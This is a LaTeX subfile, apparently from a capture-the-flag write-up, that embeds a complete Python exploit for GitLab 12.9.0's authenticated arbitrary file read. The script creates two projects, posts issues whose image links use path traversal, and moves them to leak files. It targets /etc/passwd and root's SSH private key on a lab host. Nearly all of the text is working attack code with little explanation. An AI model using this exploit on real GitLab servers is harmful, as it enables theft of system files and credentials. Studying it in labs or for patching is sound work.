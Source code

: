 \documentclass[../../main.tex]{subfiles}
\begin{document}
\begin{lstlisting}[language=Python]
# Exploit Title: Gitlab 12.9.0 - Arbitrary File Read (Authenticated)
# Google Dork: -
# Date: 11/15/2020
# Exploit Author: Jasper Rasenberg
# Vendor Homepage: https://about.gitlab.com
# Software Link: https://about.gitlab.com/install
# Version: tested on gitlab version 12.9.0
# Tested on: Kali Linux 2020.3


# You can create as many personal access tokens as you like from your GitLab profile.
#   Sign in to GitLab.
#    In the upper-right corner, click your avatar and select Settings.
#    On the User Settings menu, select Access Tokens.
#    Choose a name and optional expiry date for the token.
#    Choose the desired scopes.
#    Click the Create personal access token button.
#    Save the personal access token somewhere safe. If you navigate away or refresh your page, and you did not save the token, you must create a new one.

# REFERENCE: https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html

#   pip3 install gitlab
#   pip3 install requests
#   Use a client cert to verify SSL or set to False

import os
import requests
import json
from time import sleep
import gitlab

session = requests.Session()
session.verify = False

host = 'https://git.laboratory.htb'
token= 'TOKEN_HERE'

def exploit(projectName, issueTitle, files):
    gl = gitlab.Gitlab(host, private_token=token, session=session)
    gl.auth()
    try:
        gl.projects.delete({'name': f"{projectName}-1"})
        gl.projects.delete({'name': f"{projectName}-2"})
    except Exception as e:
        pass
    p1 = gl.projects.create({'name': f"{projectName}-1"})
    p2 = gl.projects.create({'name': f"{projectName}-2"})

    for i, f in enumerate(files):
        stripped_f = f.rstrip('\n')
        issue = p1.issues.create({ \
            'title': f"{issueTitle}-{i}",
            'description': \
                "![a](/uploads/11111111111111111111111111111111/" \
                f"../../../../../../../../../../../../../..{stripped_f})"})
        print(issue.description)
        sleep(3)
        try:
            issue.move(p2.id)
        except Exception as e:
            pass
        sleep(3)


if __name__ == "__main__":

    write_files = ['/etc/passwd', '/root/.ssh/id_rsa']
    #with open('senstive_files', 'w') as sens:
        #for file in write_files:
            #sens.write(file)

    files = write_files
    exploit('project-1', 'issue-1', files)
\end{lstlisting}
\end{document}
